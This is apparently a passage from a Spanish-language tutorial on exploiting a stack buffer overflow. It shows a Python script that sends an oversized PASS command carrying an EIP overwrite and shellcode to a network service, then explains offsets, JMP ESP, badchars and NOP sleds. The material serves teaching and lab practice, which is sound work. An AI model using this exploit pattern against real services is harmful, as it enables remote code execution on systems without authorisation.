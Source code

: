 ```python

payload = b'PASS ' + before_eip + eip + shellcode

def bof(): 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((ip, port))

    banner = s.recv(1024)
    
    if(banner):
        s.send(b"USER dobliuw" + b'\r\n')
        response = s.recv(1024)
        print(response)
        s.send(payload + b'\r\n')
        s.close()


if __name__ == "__main__":
    bof()

```

### Una vez que tengamos el espacio en memoria de donde se encontrará el OpCode, deberíamos verificar si esto es así, por lo que deberíamos agregar un breakpoint en el immunity debugger para verificar si en algún punto, en la ejecución del programa con nuestras cargas, el registro EIP vale la dirección de memoria ingresada. Si esto es así, el flujo de nuestro BOF va muy bien encaminado, solo faltaría un ultimo retoque. 

### Hasta el momento hayamos el **offset** para saber donde comenzamos a sobrescribir el **registro EIP** (Encargado de apuntar a la siguiente tarea a ejecutar ) para así posteriormente hallar un espacio en memoria que contenga el **OpCode** ( *JMP ESP* ) el cual es un OpCode que se encarga de hacer que el flujo del programa salte al **registro ESP** ( Encargado de la pila ) para poner esta dirección de memoria como valor del registro EIP, para cargar en la pila nuestro **shellcode** malicioso ( Creado ignorando los **badchars** hallados a partir del **bytearray** probado en el programa ) y como el EIP apunta al OpCode JMP ESP hacer que el flujo del programa salte a la pila (**stack**) donde esta nuestro **shellcode** (Instrucciones a bajo nivel).

###  El problema es que aveces no damos tiempo a que nuestro shellcode se ejecute ya que el procesador no llega a realizarlo en su tiempo, por lo que nos hace falta hacer uso de una de las técnicas que se suele usar en este caso como el uso de NOPs o el desplazamiento de la pila.
